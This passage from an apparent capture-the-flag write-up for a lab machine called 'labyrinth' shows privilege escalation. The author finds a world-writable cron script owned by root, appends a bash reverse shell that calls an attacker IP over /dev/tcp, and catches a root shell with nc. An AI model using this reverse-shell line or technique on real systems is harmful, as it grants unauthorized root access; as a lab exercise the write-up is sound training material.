 ```highlight
daemon@labyrinth:/reminders$ 
daemon@labyrinth:/reminders$ tail dontforget.txt
tail dontforget.txt
dont fo...forge...ttt
dont fo...forge...ttt
dont fo...forge...ttt
dont fo...forge...ttt
dont fo...forge...ttt
dont fo...forge...ttt
dont fo...forge...ttt
dont fo...forge...ttt
dont fo...forge...ttt
dont fo...forge...ttt
```

The 'dontforget.txt' file is being regularly updated, thinking back at the text files from the FTP service there is probably a cron job running. Looking around the machine further I found a timers folder.

```highlight
daemon@labyrinth:/reminders$ cd /timers
cd /timers
daemon@labyrinth:/timers$ ls
ls
timer.sh
daemon@labyrinth:/timers$ ls -lah timer.sh
ls -lah timer.sh
-rwxrwxrwx 1 root root 117 nov    7 14:38 timer.sh
daemon@labyrinth:/timers$ cat timer.sh
cat timer.sh
#!/bin/bash
echo "dont fo...forge...ttt" >> /reminders/dontforget.txt
daemon@labyrinth:/timers$ 
```

This is the script adding entries to the text file in the reminders folder and we have full write access. So I appended another reverse shell now calling port 5555.

```highlight
daemon@labyrinth:/timers$ echo '/bin/bash -i >& /dev/tcp/THMVPNIP/5555 0>&1' >> timer.sh
<h -i >& /dev/tcp/THMVPNIP/5555 0>&1' >> timer.sh
daemon@labyrinth:/timers$ cat timer.sh
cat timer.sh
#!/bin/bash
echo "dont fo...forge...ttt" >> /reminders/dontforget.txt
/bin/bash -i >& /dev/tcp/THMVPNIP/5555 0>&1
```

Started a listener and waiting for the script to run and got a shell as root!

```highlight
└──╼ $nc -nvlp 5555
listening on [any] 5555 ...
connect to [THMVPNIP] from (UNKNOWN) [10.10.68.118] 38120
bash: cannot set terminal process group (6018): Inappropriate ioctl for device
bash: no job control in this shell
root@labyrinth:~# 
```
